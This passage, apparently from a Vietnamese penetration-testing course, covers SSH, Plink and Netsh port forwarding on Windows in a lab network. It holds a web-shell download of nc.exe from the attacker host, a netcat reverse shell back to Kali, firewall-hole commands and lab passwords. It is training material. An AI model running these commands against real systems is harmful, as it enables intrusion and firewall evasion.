OpenSSH client đã được tích hợp sẵn với Windows theo mặc định kể từ phiên bản 1803 (Bản cập nhật tháng 4 năm 2018), và đã khả dụng dưới dạng Feature-on-Demand kể từ phiên bản 1709 (Windows 10 Fall Creators Update). Trên các phiên bản Windows có cài đặt SSH, theo mặc định chúng ta sẽ tìm thấy `scp.exe`, `sftp.exe`, `ssh.exe`, cùng với các tiện ích `ssh-*` khác tại vị trí `%systemdrive%\Windows\System32\OpenSSH`.

Việc SSH client được biên dịch cho Windows không có nghĩa là chúng ta chỉ có thể kết nối tới các SSH server được biên dịch cho Windows. Chúng ta có thể kết nối tới bất kỳ SSH server nào - miễn là có thông tin xác thực.

Hãy thực hành điều này bằng cách tạo một **remote dynamic port forward** từ MULTISERVER03 (một máy Windows) tới máy Kali của chúng ta. Trong kịch bản này, chỉ có cổng RDP được mở trên MULTISERVER03. Chúng ta có thể RDP vào, nhưng không thể bind bất kỳ cổng nào khác lên giao diện WAN. Khi thiết lập lab hoàn tất, nó sẽ trông như sau:


     ***Hình 12: Thiết lập SSH remote dynamic port forward sử dụng OpenSSH client trên Windows***

Chúng ta sẽ sử dụng thông tin xác thực `rdp_admin` đã tìm thấy trước đó để RDP vào máy chủ. Sau đó, chúng ta sẽ dùng `ssh.exe` để tạo một kết nối remote dynamic port forward tới máy Kali. Từ đó, chúng ta có thể sử dụng kết nối này để truy cập dịch vụ cơ sở dữ liệu PostgreSQL trên PGDATABASE01.

Trước tiên, hãy bắt đầu bằng việc đảm bảo SSH server đang chạy trên máy Kali.

```
kali@kali:~$ sudo systemctl start ssh     
[sudo] password for kali: 

kali@kali:~$ 
```

                                              ***Listing 40 - Khởi động SSH server trên máy Kali.***

Sau đó, chúng ta có thể sử dụng `xfreerdp` từ FreeRDP để kết nối tới RDP server trên MULTISERVER03.

```
kali@kali:~$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
[15:46:35:297] [468172:468173] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[15:46:35:297] [468172:468173] [WARN][com.freerdp.crypto] - CN = MULTISERVER03
[15:46:35:300] [468172:468173] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[15:46:35:301] [468172:468173] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[15:46:35:301] [468172:468173] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[15:46:35:301] [468172:468173] [ERROR][com.freerdp.crypto] - The hostname used for this connection (192.168.50.64:3389) 
[15:46:35:301] [468172:468173] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[15:46:35:301] [468172:468173] [ERROR][com.freerdp.crypto] - Common Name (CN):
[15:46:35:301] [468172:468173] [ERROR][com.freerdp.crypto] -    MULTISERVER03
[15:46:35:301] [468172:468173] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 192.168.50.64:3389 (RDP-Server):
        Common Name: MULTISERVER03
        Subject:     CN = MULTISERVER03
        Issuer:      CN = MULTISERVER03
        Thumbprint:  f5:42:78:8b:76:56:64:ba:05:73:75:c2:04:3c:74:56:6f:ba:d3:ed:f0:87:9e:ce:ee:9a:ba:e2:19:ff:56:df
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y
[15:46:38:728] [468172:468173] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Eastern
[15:46:39:538] [468172:468173] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[15:46:39:539] [468172:468173] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[15:46:40:175] [468172:468173] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[15:46:40:176] [468172:468173] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[15:46:42:254] [468172:468173] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
```

                      ***Listing 41 - Kết nối tới RDP server trên MULTISERVER03 bằng xfreerdp.***

Khi đã có kết nối, chúng ta có thể mở một cửa sổ `cmd.exe` và xác định xem SSH có tồn tại trên máy hay không bằng cách sử dụng `where ssh`.

```
C:\Users\rdp_admin>where ssh
C:\Windows\System32\OpenSSH\ssh.exe

C:\Users\rdp_admin>
```

                                                 ***Listing 42 - Tìm ssh.exe trên MULTISERVER03.***

Thành công! Chúng ta đã tìm thấy `ssh.exe` trên máy này.

Đáng chú ý là phiên bản OpenSSH được tích hợp cùng Windows cao hơn 7.6, nghĩa là chúng ta có thể sử dụng nó cho remote dynamic port forwarding.

```
C:\Users\rdp_admin>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
```

                ***Listing 43 - Phiên bản OpenSSH client được tích hợp cùng Windows cao hơn 7.6.***

Giờ đây, chúng ta có thể tạo một remote dynamic port forward tới máy Kali, giống như đã làm trước đó. Chúng ta sẽ truyền cổng 9998 cho tùy chọn `-R` và xác thực với tư cách người dùng `kali` trên máy Kali.

```
C:\Users\rdp_admin>ssh -N -R 9998 kali@192.168.118.4
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.118.4' (ECDSA) to the list of known hosts.
kali@192.168.118.4's password:
```

                  ***Listing 44 - Kết nối ngược về máy Kali để mở remote dynamic port forward.***

Chúng ta có thể kiểm tra rằng cổng SOCKS proxy đã được mở trên máy Kali bằng cách sử dụng `ss`.

```
kali@kali:~$ ss -ntplu
Netid     State      Recv-Q      Send-Q                Local Address:Port            Peer Address:Port     Process
tcp       LISTEN     0           128                       127.0.0.1:9998                 0.0.0.0:*
tcp       LISTEN     0           128                         0.0.0.0:22                   0.0.0.0:*
tcp       LISTEN     0           128                           [::1]:9998                    [::]:*
tcp       LISTEN     0           128                            [::]:22                      [::]:*
```

                          ***Listing 45 - Kiểm tra cổng SOCKS đang mở trên máy Kali bằng ss.***

Hãy cập nhật `/etc/proxychains4.conf` để sử dụng socket này.

```
kali@kali:~$ tail /etc/proxychains4.conf             
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```

                                   ***Listing 46 - File cấu hình Proxychains đã được chỉnh sửa.***

Giờ đây, khi file cấu hình đã trỏ tới cổng SOCKS của remote dynamic port forward, chúng ta có thể chạy `psql` thông qua proxychains để kết nối tới cơ sở dữ liệu PostgreSQL với tư cách người dùng `postgres` (với mật khẩu `D@t4basePassw0rd!`). Chúng ta sẽ sử dụng cùng lệnh `psql` như thể đang kết nối trực tiếp từ MULTISERVER03.

```
kali@kali:~$ proxychains psql -h 10.4.50.215 -U postgres  
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.215:5432  ...  OK
Password for user postgres: 
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.215:5432  ...  OK
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```

                           ***Listing 47 - Kết nối tới PostgreSQL server bằng psql và Proxychains.***

Kết nối đã thành công! Giờ đây chúng ta đang tương tác với cơ sở dữ liệu PostgreSQL trên PGDATABASE01 thông qua một SSH remote dynamic port forward được khởi tạo từ OpenSSH client đang chạy trên một máy Windows Server 2022.

Trong phần này, chúng ta đã thiết lập một kết nối tới cơ sở dữ liệu PostgreSQL chạy trên một máy chủ Linux thông qua một SSH remote dynamic port forward được tạo giữa một Windows SSH client và SSH server trên máy Kali của chúng ta.

---

## 4.2. Plink

---

Các quản trị viên có thể muốn tránh việc để OpenSSH tồn tại trên các máy Windows của họ, vì vậy chúng ta không thể đảm bảo rằng sẽ tìm thấy một OpenSSH client. Ngay cả khi chúng ta đang ở trên một phiên bản Windows tương đối mới, các quản trị viên mạng vẫn có thể đã gỡ bỏ nó.

Tuy nhiên, các quản trị viên mạng vẫn cần các công cụ quản trị từ xa. Hầu hết các mạng đều có SSH server chạy ở đâu đó, và quản trị viên cần các công cụ để kết nối tới các server này từ các host Windows. Trước khi OpenSSH trở nên dễ dàng khả dụng trên Windows như hiện nay, các công cụ được đa số quản trị viên mạng lựa chọn là **PuTTY** và công cụ chỉ chạy dòng lệnh tương ứng của nó là **Plink**.

Một trong những lợi ích của việc sử dụng các công cụ phổ biến với quản trị viên mạng là chúng hiếm khi bị các phần mềm antivirus truyền thống phát hiện. Điều này khiến chúng trở nên hấp dẫn đối với kẻ tấn công, vì việc sử dụng chúng tương đối kín đáo hơn so với các công cụ “gần với bảo mật” khác có chức năng tương tự.

Chúng ta sẽ sử dụng Plink trong phần này, vì trong một đánh giá bảo mật, chúng ta thường có shell hơn là quyền truy cập GUI. Tài liệu Plink: giải thích rằng phần lớn các chức năng mà OpenSSH client cung cấp cũng được tích hợp trong Plink (mặc dù có một tính năng đáng chú ý mà Plink không có là remote dynamic port forwarding).

*Nhiều SSH client của bên thứ ba cho Windows cung cấp các tính năng port forwarding. Trong trường hợp này, chúng ta sử dụng Plink vì nó phổ biến, nhẹ và được thiết kế chuyên biệt để chạy trên dòng lệnh.*

Hãy làm quen với Plink bằng cách sử dụng nó trong lab với một kịch bản đã được chỉnh sửa. Trong kịch bản này, chúng ta phát hiện rằng MULTISERVER03 hiện có một ứng dụng web được public trên cổng TCP 80. Tất cả các cổng inbound khác đều bị chặn bởi tường lửa, vì vậy RDP cũng không còn khả dụng. Bố cục mạng tương tự như sơ đồ sau:


                      ***Hình 13: MULTISERVER03 phía sau tường lửa, chỉ có cổng 80 được mở***

Chúng ta có thể xâm nhập MULTISERVER03 thông qua ứng dụng web, thả một web shell lên đó và giành được một reverse shell thông qua web shell này. Trước đó, chúng ta đã tìm được thông tin xác thực có thể dùng để kết nối tới dịch vụ RDP. Tuy nhiên, dịch vụ này bị chặn bởi tường lửa, nên chúng ta không thể kết nối trực tiếp. OpenSSH client cũng đã bị gỡ bỏ, nên chúng ta không thể tạo remote port forward bằng công cụ này.

Tuy nhiên, chúng ta vẫn còn một lựa chọn khác: chúng ta có thể tạo một remote port forward bằng Plink.

Hãy thử điều này. Trước tiên, chúng ta sẽ lấy một interactive reverse shell từ MULTISERVER03. Từ quá trình khai thác ban đầu, chúng ta đã upload một web shell cơ bản tại `/umbraco/forms.aspx`. Chúng ta có thể truy cập URL này và chạy bất kỳ lệnh Windows nào - các lệnh này sẽ được thực thi với quyền của user `iis apppool\defaultapppool`. Chúng ta có thể sử dụng web shell này để tải `nc.exe` xuống MULTISERVER03, sau đó dùng nó để gửi một reverse shell về máy Kali.

*MULTISERVER03 đã được “pre-compromised” trong lab. Tại thời điểm này, bạn có thể truy cập `/umbraco/forms.aspx` trên HTTP server cổng 80 của MULTISERVER03. Bạn sẽ thấy một trang webshell, cho phép bạn chạy các lệnh tùy ý trên MULTISERVER03.*

Để tải `nc.exe` lên MULTISERVER03, trước tiên chúng ta cần host nó trên một server mà MULTISERVER03 có thể truy cập. Chúng ta có thể dễ dàng cấu hình Apache2 trên máy Kali để làm việc này. Apache2 được cài sẵn theo mặc định trên Kali, vì vậy chúng ta chỉ cần khởi động dịch vụ `apache2`.

```
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```

                                                             ***Listing 48 - Khởi động Apache2.***

Sau đó, chúng ta có thể tìm `nc.exe` trong thư mục `windows-resources/binaries` trên Kali và sao chép nó vào thư mục gốc web của Apache2.

```
kali@kali:~$ find / -name nc.exe 2>/dev/null
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```

                                  ***Listing 49 - Sao chép nc.exe vào webroot của Apache2.***

Khi file thực thi đã ở đó, chúng ta có thể tải nó về MULTISERVER03. Chúng ta sẽ sử dụng một PowerShell wget one-liner từ web shell để tải `nc.exe`.

Từ web shell, chúng ta sẽ chạy một lệnh yêu cầu PowerShell tải `nc.exe` từ web server trên máy Kali của chúng ta (`-Uri http://192.168.118.4/nc.exe`) và ghi nó vào `C:\Windows\Temp` trên MULTISERVER03 bằng `-OutFile`. Gộp lại, chúng ta chạy lệnh sau:

```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```

       ***Listing 50 - Lệnh PowerShell dùng để tải nc.exe về MULTISERVER03 thông qua web shell.***

Sau khi lệnh PowerShell được thực thi, payload của chúng ta được tải từ Apache2 server về `C:\Windows\Temp\nc.exe` trên MULTISERVER03.

Tiếp theo, chúng ta thiết lập một Netcat listener trên cổng 4446 trên máy Kali.

```
kali@kali:~$ nc -nvlp 4446
listening on [any] 4446 ...
```

                                                 ***Listing 51 - Netcat listener trên máy Kali.***

Khi listener đã chạy, chúng ta sẽ thực thi `nc.exe` trên MULTISERVER03 bằng web shell một lần nữa, truyền tham số `-e` để thực thi `cmd.exe` khi kết nối được thiết lập.

```
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
```

                     ***Listing 52 - Payload reverse shell nc.exe được thực thi trong web shell.***

Shell nhanh chóng kết nối về listener của chúng ta.

```
...
listening on [any] 4446 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.64] 51889
Microsoft Windows [Version 10.0.20348.825]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

                                     ***Listing 53 - Shell từ nc.exe được Netcat listener bắt được.***

Giờ đây chúng ta muốn tải Plink về MULTISERVER03. Trên máy Kali, chúng ta có thể sao chép `plink.exe` từ `windows-resources/binaries` vào thư mục webroot của Apache2.

```
kali@kali:~$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
[sudo] password for kali: 

kali@kali:~$ 
```

                            ***Listing 54 - Sao chép plink.exe vào webroot của Apache2.***

Trong reverse shell, chúng ta lại sử dụng PowerShell one-liner để tải `plink.exe` từ máy Kali về `C:\Windows\Temp`.

```
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

c:\windows\system32\inetsrv>
```

                                  ***Listing 55 - Plink được tải về thư mục C:\Windows\Temp.***

Khi file thực thi Plink đã được tải về MULTISERVER03, chúng ta có thể bắt đầu sử dụng nó.

Trong trường hợp này, chúng ta sẽ thiết lập Plink với một remote port forward để có thể truy cập cổng RDP của MULTISERVER03 từ máy Kali. Cú pháp lệnh để thiết lập remote port forward với Plink rất giống với lệnh remote port forward của OpenSSH client. Sau tùy chọn `-R`, chúng ta sẽ truyền socket mà chúng ta muốn mở trên Kali SSH server, và cổng RDP trên giao diện loopback của MULTISERVER03 mà chúng ta muốn chuyển tiếp gói tin tới.

Chúng ta cũng sẽ truyền trực tiếp username (`-l`) và password (`-pw`) trên dòng lệnh.

*Điều này có thể ghi lại mật khẩu Kali của chúng ta ở những vị trí không mong muốn! Nếu đang ở trong một mạng thù địch, chúng ta có thể muốn tạo một user chỉ dành cho port forwarding trên máy Kali để sử dụng trong các tình huống remote port forwarding.*

```
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
The host key is not cached for this server:
  192.168.118.4 (port 22)
You have no guarantee that the server is the computer
you think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:q1QQjIxHhSFXfEIT4gYrRF+zKr0bcLMOJljoINxThxY
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "kali".
Linux kali 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 21 15:50:39 2022 from 192.168.50.64
kali@kali:~$ 
```

                                                  ***Listing 56 - Tạo kết nối SSH tới máy Kali.***

Chúng ta được hỏi liệu có muốn lưu server key vào cache hay không.

*Tương tự như việc không thể chấp nhận prompt lưu SSH client key cache từ một non-TTY shell trên Linux, với một số shell rất hạn chế khi dùng Plink trên Windows, chúng ta cũng sẽ không thể phản hồi prompt này. Một giải pháp đơn giản trong trường hợp đó là tự động hóa việc xác nhận bằng `cmd.exe /c echo y`, rồi pipe đầu ra này vào lệnh `plink.exe`. Điều này sẽ giả lập thao tác xác nhận mà chúng ta thường nhập khi được hỏi. Toàn bộ lệnh sẽ là:*

`cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7`.

Chúng ta có thể xác nhận rằng cổng đã được mở trên máy Kali bằng cách sử dụng `ss`.

```
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128        127.0.0.1:9833      0.0.0.0:*
tcp   LISTEN 0      5            0.0.0.0:80        0.0.0.0:*     users:(("python3",pid=1048255,fd=3)) 
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
kali@kali:~$ 
```

                           ***Listing 57 - Cổng 9833 được mở trên giao diện loopback của Kali.***

Cổng 9833 đã được mở trên giao diện loopback của máy Kali.


***Hình 14: Luồng lưu lượng từ cổng lắng nghe mở trên máy Kali tới cổng RDP đang mở trên MULTISERVER03, phía sau tường lửa***

Giờ đây chúng ta có thể kết nối tới cổng 9833 trên giao diện loopback của Kali bằng `xfreerdp` với user `rdp_admin`. Để chỉ định một cổng RDP tùy chỉnh trong xfreerdp, chúng ta chỉ cần thêm `:9833` vào địa chỉ IP.

```
kali@kali:~$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833  
...
Certificate details for 127.0.0.1:9833 (RDP-Server):
        Common Name: MULTISERVER03
        Subject:     CN = MULTISERVER03
        Issuer:      CN = MULTISERVER03
        Thumbprint:  4a:11:2d:d8:03:8e:dd:5c:f2:c4:71:7e:15:1d:20:fb:62:3f:c6:eb:3d:77:1e:ea:44:47:10:42:49:fa:1e:6a
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y
[05:11:17:430] [1072332:1072333] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Eastern
...
```

               ***Listing 58 - Kết nối tới RDP server bằng xfreerdp, thông qua Plink port forward.***

Kết nối thành công, và chúng ta đã có phiên RDP thông qua Plink remote port forward!


                      ***Hình 15: Kết nối tới MULTISERVER03 thông qua remote port forward.***

Trong phần này, chúng ta đã sử dụng Plink để tạo một remote port forward nhằm truy cập dịch vụ RDP trên MULTISERVER03. Chúng ta cũng đã xem xét một số vấn đề mang tính lý thuyết khi khởi tạo Plink trong các shell bị hạn chế hơn, và khám phá kỹ thuật pipe phím bấm vào Plink như một giải pháp.

---

## **4.3. Netsh**

---

Có một cách native để tạo port forward trên Windows mà chúng ta nên tìm hiểu: công cụ cấu hình firewall tích hợp sẵn **Netsh** (còn được gọi là Network Shell). Với Netsh, chúng ta có thể thiết lập một port forward bằng subcontext `portproxy` trong interface context. Mặc dù Netsh yêu cầu quyền quản trị để tạo port forward trên Windows, nó có thể rất hữu ích trong một số tình huống hạn chế.

Hãy xem xét một chỉnh sửa nhỏ của kịch bản trước đó. MULTISERVER03 đang phục vụ ứng dụng web của nó trên cổng TCP 80 ở perimeter. CONFLUENCE01 không còn truy cập được trên giao diện WAN. Để đơn giản, tường lửa trên MULTISERVER03 cũng cho phép inbound TCP cổng 3389, nghĩa là chúng ta có thể đăng nhập trực tiếp qua RDP.


                                                   ***Hình 16: Thiết lập mạng cho kịch bản này***

Chúng ta muốn SSH vào PGDATABASE01 trực tiếp từ máy Kali. Để làm điều này, chúng ta cần tạo một port forward trên MULTISERVER03 để lắng nghe trên giao diện WAN và chuyển tiếp các gói tin tới cổng SSH trên PGDATABASE01.

*Subcontext `portproxy` của lệnh `netsh interface` yêu cầu quyền quản trị để thực hiện bất kỳ thay đổi nào. Điều này có nghĩa là trong hầu hết các trường hợp, chúng ta sẽ cần tính tới UAC. Trong ví dụ này, chúng ta chạy nó trong một shell qua RDP bằng một tài khoản có quyền administrator, nên UAC không phải là mối quan ngại. Tuy nhiên, chúng ta cần ghi nhớ rằng UAC có thể là một trở ngại trong các thiết lập khác.*

Để bắt đầu thiết lập một port forward, hãy RDP trực tiếp vào MULTISERVER03 từ máy Kali bằng xfreerdp một lần nữa.

```
kali@kali:~$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
[07:48:02:576] [265164:265165] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[07:48:02:577] [265164:265165] [WARN][com.freerdp.crypto] - CN = MULTISERVER03
[07:48:03:685] [265164:265165] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Eastern
[07:48:03:886] [265164:265165] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[07:48:03:886] [265164:265165] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[07:48:03:940] [265164:265165] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[07:48:03:940] [265164:265165] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
```

                                           ***Listing 59 - Kết nối tới RDP server bằng xfreerdp.***

Trong phiên RDP, chúng ta có thể chạy `cmd.exe` với quyền administrator để mở một cửa sổ command.

Từ cửa sổ này, chúng ta có thể chạy Netsh. Chúng ta sẽ chỉ thị netsh interface thêm một rule portproxy từ một IPv4 listener được chuyển tiếp tới một IPv4 port (v4tov4). Rule này sẽ lắng nghe trên cổng 2222 ở giao diện hướng ra ngoài (listenport=2222 listenaddress=192.168.50.64) và chuyển tiếp các gói tin tới cổng 22 trên PGDATABASE01 (connectport=22 connectaddress=10.4.50.215).

```
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

C:\Windows\system32>
```

                                                ***Listing 60 - Lệnh portproxy đang được chạy.***

Mặc dù chúng ta không nhận được bất kỳ output nào từ lệnh, chúng ta có thể xác nhận rằng cổng 2222 đang lắng nghe bằng cách sử dụng netstat.

```
C:\Windows\system32>netstat -anp TCP | find "2222"
  TCP    192.168.50.64:2222     0.0.0.0:0              LISTENING

C:\Windows\system32>
```

                  ***Listing 61 - netstat cho thấy TCP/2222 đang lắng nghe trên giao diện external.***

Chúng ta cũng có thể xác nhận rằng port forward đã được lưu lại bằng cách chạy lệnh `show all` trong subcontext netsh interface portproxy.

```
C:\Windows\system32>netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.50.64   2222        10.4.50.215     22
```

                   ***Listing 62 - Liệt kê tất cả portproxy port forwarder được thiết lập với Netsh.***

Cổng đang lắng nghe, và port forward đã được thiết lập.


***Hình 17: Port forward được thiết lập trên MULTISERVER03 sẽ chuyển tiếp các gói tin nhận trên cổng 2222 tới cổng 22 trên PGDATABASE01***

Tuy nhiên, có một vấn đề. Chúng ta không thể kết nối tới cổng 2222 từ máy Kali. Chúng ta sẽ kiểm tra cụ thể cổng 2222 bằng nmap.

```
kali@kali:~$ sudo nmap -sS 192.168.50.64 -Pn -n -p2222
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 06:27 EDT
Nmap scan report for 192.168.50.64
Host is up (0.00055s latency).

PORT     STATE    SERVICE
2222/tcp filtered EtherNetIP-1
MAC Address: 00:0C:29:A9:9F:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
```

                        ***Listing 63 - Nmap cho thấy cổng 2222 trên MULTISERVER03 bị filtered.***

Phản hồi cho thấy cổng 2222 bị filtered. Nhiều khả năng Windows Firewall đang chặn các kết nối inbound tới cổng 2222.


**Hình 18: Windows firewall chặn nỗ lực kết nối tới cổng 2222 trên MULTISERVER03 từ máy Kali ở mạng WAN**

Để truy cập được, chúng ta cần “đục một lỗ” trên firewall của MULTISERVER03.

*Chúng ta cũng cần nhớ “bịt lỗ” đó ngay khi hoàn thành!*

Chúng ta có thể dùng subcontext `netsh advfirewall firewall` để tạo lỗ hổng này. Chúng ta sẽ dùng lệnh `add rule` và đặt tên rule là `"port_forward_ssh_2222"`. Chúng ta cần dùng một tên dễ nhớ hoặc mang tính mô tả, vì chúng ta sẽ dùng chính tên này để xóa rule sau đó.

Chúng ta sẽ cho phép kết nối trên local port (localport=2222) ở interface có local IP address (localip=192.168.50.64) bằng giao thức TCP, cụ thể cho lưu lượng inbound (dir=in).

```
C:\Windows\system32> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
Ok.

C:\Windows\system32>
```

                                ***Listing 64 - Tạo một “lỗ” trong Windows Firewall bằng Netsh.***

Lệnh hoàn tất thành công với phản hồi “Ok.”. Chúng ta có thể kiểm tra lại trạng thái cổng từ máy Kali.

```
kali@kali:~$ sudo nmap -sS 192.168.50.64 -Pn -n -p2222
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 06:28 EDT
Nmap scan report for 192.168.50.64
Host is up (0.00060s latency).

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
MAC Address: 00:0C:29:A9:9F:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

                       ***Listing 65 - Nmap cho thấy cổng 2222 trên MULTISERVER03 đang mở.***

Cổng đã mở! Giờ chúng ta có thể SSH tới cổng 2222 trên MULTISERVER03, như thể đang kết nối tới cổng 22 trên PGDATABASE01.

```
kali@kali:~$ ssh database_admin@192.168.50.64 -p2222
The authenticity of host '[192.168.50.64]:2222 ([192.168.50.64]:2222)' can't be established.
ED25519 key fingerprint is SHA256:3TRC1ZwtlQexLTS04hV3ZMbFn30lYFuQVQHjUqlYzJo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.50.64]:2222' (ED25519) to the list of known hosts.
database_admin@192.168.50.64's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 21 Aug 2022 10:40:26 PM UTC

  System load:  0.0               Processes:               231
  Usage of /:   60.9% of 7.77GB   Users logged in:         0
  Memory usage: 16%               IPv4 address for ens192: 10.4.50.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.50.215

0 updates can be applied immediately.

Last login: Sat Aug 20 21:47:47 2022 from 10.4.50.63
database_admin@pgdatabase01:~$
```

                          ***Listing 66 - SSH vào PGDATABASE01 thông qua Netsh port forward.***

Tuyệt vời! Chúng ta đã SSH vào PGDATABASE01 thông qua một port forward được thiết lập trên MULTISERVER03 bằng Netsh.


***Hình 19: Kết nối tới cổng 2222 trên MULTISERVER03 thông qua “lỗ” mà chúng ta tạo trong Windows firewall***

*Khi đã hoàn tất kết nối, chúng ta cần nhớ xóa firewall rule mà chúng ta vừa tạo.*

Sử dụng `netsh advfirewall firewall`, chúng ta có thể xóa rule bằng cách tham chiếu nó qua tên dễ nhớ: `"port_forward_ssh_2222"`.

```
